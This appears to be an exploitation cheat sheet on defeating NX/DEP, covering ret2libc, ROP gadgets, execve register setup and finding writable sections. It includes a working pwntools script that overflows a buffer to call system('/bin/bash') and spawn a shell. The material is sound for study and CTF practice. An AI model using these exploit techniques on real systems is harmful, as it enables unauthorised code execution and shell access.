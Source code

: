 # No eXecute / Data Execution Prevention

## ret2libc

Check if the target binary is using `libc` with the following commands:  
`ldd <binary>`  
or  
`vmmap` - when inside gdb  

List functions provided by your systems libc:  
`nm -D /lib/$(uname -m)-linux-gnu/libc-*.so | grep -vw U | grep -v "_" | cut -d " " -f 3`  

libc, or any other library, is a list of functions that reside at a known offset from the library base.  
If you know the library base and the library version, you will also know the target function's address.  

*NX prevents execution from the stack but having arguments there is fine*  

Steps to exec a function in libc:  
1. find interesting function to spawn a shell (System, Exec* (execl, execle, execlp, execve, execve, etc...))
2. Set up the stack
3. Overwrite EIP/RIP with the functions address

Stack setup:  
1. Offset to EIP
2. Address of the target function
3. Return address to be restored after executing the function, i.e. exit() (or anything if we don't care about a graceful exit)
4. Arguments for the target function

### System() Example
No ASLR  
---

From the man pages:  
`int system(const char *cmd);`  

Find system()'s offset from the libc base  
`readelf -s /lib/i386-linux-gnu/libc.so.6 | grep "system"`  
The address provided in the second column is the offset  
Open gdb while debugging the target binary and run: `vmmap libc`. Choose one which has "x" permissions  
Add the system() offset and the executable libc base to find system()'s address.  

If the above does not work, an alternative is `p system` in gdb.  
*repeat for exit() if looking to exit gracefully*  

System() requires a pointer to the string as an argument, not the string itself. Need to find "/bin/bash" or similar in the binary.  
In gdb: `search /bin` to find instances of shells  
Try to use addresses from libc  

**Example exploit:**  

```python3
#!/usr/bin/env python3
from pwn import *
io = process("./vuln")
offset = b"A" * 520
target_func = p64(0x7ffff7e17330)   # system @ 0x7ffff7e17330
ret_addr = p64(0x7ffff7e09590)    # exit @ 0x7ffff7e09590
sys_arg = p64(0x7ffff7f61031)   # Argument to system() "/bin/bash" @ 0x7ffff7f61031

payload = offset + target_func + ret_addr + sys_arg
print(payload)

io.sendline(payload)
io.interactive()
```

If you need to pass as a command line arg you can use `(cat payload.txt; cat) | ./vuln`  

## ROP Chains

Pwntools ROP documentation: <https://docs.pwntools.com/en/latest/rop/rop.html>  
<https://github.com/Gallopsled/pwntools-tutorial/blob/master/rop.md>  
Stephen Sims - Return Oriented Shellcode (SANS SEC760 Content)  
<https://www.youtube.com/watch?v=7BMyVvYv5d0>  
Automate finding gadgets <https://github.com/packz/ropeme>  

Overflow a buffer to control the EIP/RIP.  
From the EIP/RIP onwards, place the address of the instructions you are using and any values that need to be popped into registers, followed by an `int 0x80` to switch to kernel mode and execute the system call.  

You can view the available gadgets in a program with `ropper`  
E.g. `ropper -f vuln` to view all of the gadgets in a binary.  


**Calling execve():**  
- AL register needs to hold 0x0b
- BX register needs to hold a pointer to your arg for the system call
- CX register points to the arg vector ARGV pointer array
- DX register points to the ENVP array (Environment Variable Pointer)

If the program has an mmap() function, you need to find rop gadgets **after** the mmap() has occurred to ensure the gadgets do exist in memory.  
- You can then use `ltrace` to view the address where mmap is mapped and add instuction offsets
- Validate by hitting a breakpoint in gdb and addid the 2 values, then `x/i $addr`

## Write What Where

Gadgets that allow you to store data in memory, i.e. create a pointer to an argument.  
 
E.g.  

```asm
# Basic and best example
mov [rdi], rsi; ret;

# Alternative:
xchg byte ptr [rdi], bl; ret;
```

## Writeable Locations

Find writable sections with `readelf -S -W ./vuln`  
Use pwntools to reference section addresses:  
```python
from pwn import *
context.binary = elf = ELF("./vuln")
print(elf.symbols)
```

**.data** stores initialised variables.  
The address of .data can be found with:  
```python
from pwn import *
context.binary = elf = ELF("./vuln")
data_section = elf.symbols.data_start
```

**.bss** stores uninitialised variables.  
The address of .bss can be found with:  
```python
from pwn import *
context.binary = elf = ELF("./vuln")
bss_section = elf.symbols.__bss_start
```

## Stack Pivoting

